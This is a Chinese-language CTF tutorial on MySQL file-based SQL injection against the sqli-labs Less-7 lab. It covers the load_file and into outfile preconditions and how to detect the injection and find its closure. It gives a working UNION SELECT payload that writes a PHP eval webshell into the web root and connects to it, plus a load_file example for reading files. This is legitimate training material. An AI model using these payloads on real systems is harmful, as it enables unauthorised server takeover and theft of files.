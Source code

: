 <!--
author: maomao
title: 2.6sql注入之文件注入
category: web安全入门
status: publish
summary: 文件读取注入指的是我们可以利用sql的函数来进去下载和上传文件。我们可以利用此来上传木马获取shell，或者来下载系统文件。
-->


##一、免责声明

该课程中涉及的技术只适合于CTF比赛和有合法授权的渗透测试。请勿用于其他非法用途，如果作于其他非法用途，与本文作者无关。


##二、简介

文件读取注入指的是我们可以利用sql的函数来进去下载和上传文件。我们可以利用此来上传木马获取shell，或者来下载系统文件。

##三、函数介绍

sql文件注入主要采用下面的两个函数，同时能否上传或者下载成功还存在诸多的限制。

###读取文件：load_file(）

>1. 当前权限对该文件可读
>2. 文件在该服务器上
>3. 路径完整
>4. 文件大小小于max_allowed_packet
>5. 当前数据库用户有FILE权限
>6. secure_file_priv的值为空，如果值为某目录，那么就只能对该目录的文件进行操作

###上传文件：

>1. 目标目录要有可写权限
>2. 当前数据库用户要有FILE权限
>3. 目标文件不能已存在
>4. secure_file_priv的值为空
>5. 路径完整

##四、题目链接

>http://xx.xx.xx.xx:49005/Less-7/index.php?id=1

##五、and 判断闭合

在前面几关中，我们在语句后面添加一个单引号，语句报错。同时，显示出报错语句，我们可以根据来进行闭合。然后注入。

但是在下面的关卡中，将不会像前面几关那样爆出sql语句的错误，而是给了我们一个提示，告诉我们sql语句错误。

![](img/2.6/1.png)

加单引号后报错，虽然没有给出sql错误语句。但是可以判断的是，后台已经将sql语句带入了数据库中执行。

因此可以判定存在注入。

接下来我们尝试闭合，我们使用的闭合语句如下：

> ' and 1=1 --+

> ' and 1=2 --+

or　运算符只有当两边同是为真的时候才为真。为真则显示结果，为假则不显示。看如下链接

>http://xx.xx.xx.xx:49005/Less-7/index.php?id=1' and  1=1 --+

我们将其带入数据中执行一下：

![](img/2.6/2.png)

可以看出1=1为永真，如果我们使用　' and 1=1测试的时候，返回了正常页面，则可以说明两边为真。即前面闭合成功。此时，我们再用１＝２，提示错误。则说明闭合成功


##六、实战

1、闭合

用上面的方法进行判断，发现其是可以用’))来闭合。

>http://xx.xx.xx.xx:49005/Less-7/index.php?id=1')) and 1=1--+

![](img/2.6/3.png)

>http://xx.xx.xx.xx:49005/Less-7/index.php?id=1')) and 1=2--+

![](img/2.6/4.png)
2.判断列数

>http://xx.xx.xx.xx:49005/Less-7/index.php?id=1')) order by 4--+

![](img/2.6/5.png)


３.判断权限

有网页的文件可以得知，我们需要outfile..所以我们尝试文件注入来进行上传文件。首先先判读一下权限。

>http://xx.xx.xx.xx:49005/Less-7/index.php?id=1')) and (select count(*) from mysql.user)>--+

如果返回成功，则表示是系统的最高权限，即root权限，否则不是，即一般不可对其进行文件注入

![](img/2.6/7.png)

接下来需要进行网站绝对路径的判断，在此不过多叙述：

>https://blog.csdn.net/jihaichen/article/details/80211769


4.上传木马

>http://xx.xx.xx.xx:49005/Less-7/index.php?id=1')) union select 1,2,'<?php @eval($_POST["cmd"]);?>' into outfile '/var/www/html/1.php'--+

执行完上面的url以后，页面报错。我们看一下我们的木马是否上传成功。在浏览器访问我们的木马地址

>http://xx.xx.xx.xx:49005/1.php

![](img/2.6/8.png)

发现此时上传成功，并且成功解析。

５．使用菜刀连接

由于本人使用的是kali。weevely 生成的木马实在太长，试了好多次都没有上传成功。所以我就复制了一个上去

![](img/2.6/10.png)

可以看出连接成功

关于菜刀的连接一句话还望大佬们自己尝试。有问题可以随时在星球留言。

6.load_file() 函数在此不过多叙述，使用方法与into outfile 类似.例子如下：

>http://127.0.0.1/index.php?age=-1 union select 1,2,3,4,load_file(‘H:/wamp64/www/233.php’)

日后遇到比较好的靶场，再给大家详细讲解。

##七、课后练习

CTF赛题地址：https://t.zsxq.com/r7mMV7a

关于CTF赛题有任何的问题请在星球或者微信群里面＠江江河畔砍柴人。我将会在第一时间解答。

##八、小结

CTF（web和内网渗透系列教程）的清单请在“https://github.com/xuanhun/HackingResource” 查看，定时更新最新章节链接

答疑、辅导请加入玄魂工作室--安全圈，一起成长探讨更私密内容。微信扫码了解详情：

![](img/2.6/00.jpeg)

及时获取更多消息，请关注微信订阅号

![](img/2.6/0.jpg)
